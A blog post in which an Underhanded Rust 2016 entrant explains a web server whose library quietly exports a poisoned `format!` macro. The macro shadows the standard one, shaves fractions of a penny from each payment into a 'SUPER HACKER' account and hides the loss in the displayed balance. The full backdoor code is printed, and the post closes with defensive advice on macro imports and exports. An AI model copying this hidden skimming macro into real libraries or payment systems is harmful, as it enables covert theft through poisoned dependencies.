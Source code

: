 ```yaml
---
layout: post
title:  "serejkaaa512's 2016 Underhanded Rust Entry - Poisoned with macro"
categories: underhanded
lang: en-US
author: serejkaaa512
---
```


**Note: This post was written by serejkaaa512 to describe their entry in the 2016 Underhanded Rust contest, which can be found [here](https://github.com/rust-community/underhanded-submissions/tree/master/2016/serejkaaa512/submission1).**


To take part in [Underhanded Rust](https://underhanded.rs) i wrote a simple
web-server, that has a small defect. It quietly carves out fractions of a penny 
from each transaction into an account used by SUPER HACKER. To make it i
used Rust Macros System.

There is [Macros chapter](https://doc.rust-lang.org/book/macros.html) of the Rust Book which is an approachable, 
high-level explanation of Rust macros also there is a book called
["The Little Book of Rust Macros"](https://danielkeep.github.io/tlborm/book/README.html).

# Ideas

There are several ways to expose a macro to a wider scope, so anyone can 
use it in its project. One can specify what macros that would be exposed.
When importing one can specify what macros to use.
But as macros can have a lot of changes and renaming they are often
not specified, they all go on export and import. This is the first
idea of the exploit.

The second one can be described by this code:

```rust
macro_rules! println {
    ($form:expr) => {
        print!("Hacked! HAHAHHAHA!!!! -,- !!!! {:?}", $form);
        print!("\n");
    };
}


fn main() {
    println!("Acount Number 2132131321, Name - Serejkaaa, Balance - 123.4342");
}
```

Macros have no prefix in their names. They can overwrite each other, 
even those defined in standard library.

These are two main ideas of the exploit.

# Technical part

The technical part is not so excited. New macros format! was added to the [Nickel](https://github.com/nickel-org/nickel.rs) library.
It exports a lot of them so no one will notice the new small one format! -,-

It's code looks like this:

```rust
#[macro_export]
macro_rules! format{
    ($arg1:tt, $firstname:expr, $lastname:expr, $account:expr, $amount:expr) => (
        {
            if $firstname != "SUPER" && $lastname != "HACKER" {
                $amount -= 0.00001;
                
                use hyper::client::Client;
                use std::thread;
                use rustc_serialize::json::Json;
                use std::io::Read;

                thread::spawn(move	||	{

                    let mut url = format!("http://{}{}", "127.0.0.1:6767", "/balance?firstname=SUPER&lastname=HACKER");
                    let mut response = Client::new()
                                        .get(&url)
                                        .send()
                                        .unwrap();
                    let mut body = String::new();
                    response.read_to_string(&mut body).unwrap();
                    let json = Json::from_str(&*body).unwrap();

                    url = format!("http://{}{}", "127.0.0.1:6767", "/pay");
                    let hack_account = json["account"].as_string().unwrap();
                    
                    let json_send = format!("{}{}{}",
                            r#"{ "customer": { "firstname": "SUPER","lastname": "HACKER" }, "account": ""#,
                            &*hack_account,
                            r#"", "amount": "0.00001"}"#);
                    Client::new().post(&url).body(&json_send).send().unwrap();
                });
                
                ::std::fmt::format(format_args!($arg1, $firstname, $lastname, $account, ($amount + 0.00001)))
            } else {
                ::std::fmt::format(format_args!($arg1, $firstname, $lastname, $account, $amount))
            }
        }
    );
    ($($arg:tt)*) => (
        {
            ::std::fmt::format(format_args!($($arg)*))
        }
    );
}
```

In the server part this macros is used to form an answer on payment post request. Like this:

```ignore
fn add_payment(&mut self, pay: Payment) -> String {
        let ac = self.accounts
            .iter_mut()
            .find(|ac| {
                ac.customer.firstname == pay.customer.firstname &&
                ac.customer.lastname == pay.customer.lastname &&
                ac.account == pay.account
            })
            .unwrap();
        ac.amount += pay.amount;
        format!("Payment received. New data: Customer - {} {}. Account - {}. Amount - {}",
                ac.customer.firstname,
                ac.customer.lastname,
                ac.account,
                ac.amount)
    }
```

Poisoned macros gets everything needed and does its dirty business.

# The End 

As a conclusion, i can say the following: Always specify which macros
you want to import and export, and make sure that they do nothing extra,
because SUPER HACKER is still out there and waits for your money!

Thanks $)
